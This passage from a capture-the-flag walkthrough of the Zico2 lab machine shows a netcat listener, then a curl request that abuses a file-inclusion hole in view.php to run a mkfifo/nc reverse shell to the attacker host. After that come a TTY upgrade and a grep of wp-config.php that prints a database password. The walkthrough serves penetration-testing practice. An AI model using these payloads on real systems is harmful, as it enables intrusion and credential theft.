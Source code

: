 ... and it works.

### Low privilege shell
Steps. Start the listener
```
# nc -lnvp 1234
```
In another window:
```
# curl -s http://192.168.109.143/view.php --data-urlencode "page=../../usr/databases/rs.php&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.109.140 1234 >/tmp/f"

```
Moving into the Kali VM.
```
root@marksmith:~# nc -lnvp 1234
listening on [any] 1234 ...
connect to [192.168.109.140] from (UNKNOWN) [192.168.109.143] 44106
/bin/sh: 0: can't access tty; job control turned off
$ which python
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"

... here we do Ctrl+z
www-data@zico:/var/www$ ^Z
[1]+  Stopped                 nc -lnvp 1234
root@marksmith:~# stty raw -echo
... then fg

www-data@zico:/var/www$  stty rows 33  cols 133
```
We have a look at `view.php`; this is where the vulnerability lies. Since it's not appending any extension to the [Param] we could bruteforce for other files.

```
www-data@zico:/var/www$ cat view.php
<?php
        $page =$_GET['page'];
        include("/var/www/".$page);
?>
```

We go to `zico` home directory and look at wordpress;

```
www-data@zico:/var/www$ cd /home/zico
www-data@zico:/home/zico$ ls
bootstrap.zip                            to_do.txt          zico-history.tar.gz
joomla                                   wordpress
startbootstrap-business-casual-gh-pages  wordpress-4.8.zip

We find a wp-config.php in an abandoned wordpress installation thus hunt for usernames & passwords;

www-data@zico:/home/zico/wordpress$ grep -i 'user\|pass' wp-config.php
/** MySQL database username */
define('DB_USER', 'zico');
/** MySQL database password */
define('DB_PASSWORD', 'sWfCsfJSPV9H3AmQzw8');
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
```
Point to note we could also try, `grep -Ri 'user\|pass'`


[1]: https://www.vulnhub.com/entry/zico2-1,210/
[2]: https://twitter.com/@rafasantos5
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator